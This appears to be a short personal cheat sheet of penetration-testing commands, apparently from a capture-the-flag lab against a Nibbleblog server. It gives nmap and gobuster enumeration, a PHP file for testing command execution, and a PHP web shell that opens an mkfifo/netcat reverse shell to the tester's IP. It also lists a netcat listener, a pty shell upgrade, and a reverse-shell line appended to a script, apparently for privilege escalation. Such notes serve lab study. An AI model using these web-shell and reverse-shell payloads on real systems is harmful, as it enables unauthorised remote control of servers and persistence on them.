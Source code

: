 #### Nmap

Enumeration/Scanning:

```bash
nmap -sS IpAddress
``` 
>[!note] Or use these flags
>```-sT``` for TCP or ```-sU``` for UDP.
  
Perform a quick scan for open ports followed by a full port scan

```bash
nmap -p0- -v -A -T4 IpAddress
```
>[!note] What does each flag do?
>```-p0-``` asks Nmap to scan every possible TCP port.
>```-v``` asks Nmap to be verbose about it.
>```-A``` enables aggressive tests such as remote OS detection, service/version detection, and the Nmap Scripting Engine (NSE).
>```-T4``` enables a more aggressive timing policy to speed up the scan.

#### Whatweb
To list the plugins supported:
```bash
./whatweb -l [target]
```

#### Gobuster
Enumerate crawl Gobuster:
```bash
gobuster dir -u 10.129.200.170/nibbleblog -w /usr/share/dirb/wordlists/common.txt
```

To check if there's php injection available. Upload a php file with this content:
```php
<?php system('id'); ?>
```

PHP website to create a [[Reverse Shell]] connection (use your box IP so the server targets your box):
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc USE.YOU.IP.ADD 9443 >/tmp/f"); ?>
```

Start listening for connections using netcat port 9443:
```bash
nc -lvnp 9443
```


To make the shell more easy to navigate using python pty:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Create an http server to share files with the target:
```bash
sudo python3 -m http.server 8080
```

To add a line at the end of a file:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.203 8443 >/tmp/f' | tee -a monitor.sh
```


